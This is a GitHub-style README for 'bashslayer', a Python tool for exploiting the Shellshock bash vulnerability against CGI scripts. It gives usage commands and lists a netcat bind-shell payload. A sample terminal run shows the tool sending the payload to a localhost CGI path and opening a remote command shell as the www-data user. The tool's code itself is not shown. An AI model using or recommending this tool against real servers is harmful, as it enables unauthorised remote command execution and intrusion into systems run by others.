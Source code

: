 bashslayer
==========

A tool written in Python for exploiting the Shellshock vulnerability in bash.

usage
==========

>>To attempt exploitation of a target-

./bslayer.py [target host] [payload]
E.X ./bslayer.py http://localhost/cgi-bin/vuln nc_bind

>>To view available payloads-

./bslayer.py payloads

This tool will inject a payload included in an environment variable into a User-Agent header via POST.
The tool will then try to establish a socket to the payload, or vice versa, depending on the type of payload.

As of now, the payloads supported are-

[ 1 ]- Netcat Bind Shell (nc_bind)

---------------------------------------------------------------------------------------------------------------------

root@kali:~/bashslayer# ./bslayer.py http://localhost/cgi-bin/vuln nc_bind

_____________________________________________________________
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
      / |
     || |
     || |
     || |  BashSlayer v1.0
     || |  Written by Kory Findley (K0FIN)
     || |
     || |
     || |
     || |
     || |
   <======>
      ||
      ||
      ||  
     {:;}


Available Commands >> 
                      > ./bslayer.py [url] [payload]
                      > ./bslayer payloads

E.X   >> ./bslayer.py http://localhost/cgi-bin/file.sh bind
_____________________________________________________________
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

    
[*]Bind shell payload sent.
[>]Socket Established. Press [ENTER] To Start Command Shell- 
------------------------------------------------------------
ID: uid=33(www-data) gid=33(www-data) groups=33(www-data)
------------------------------------------------------------

$slayershell~>

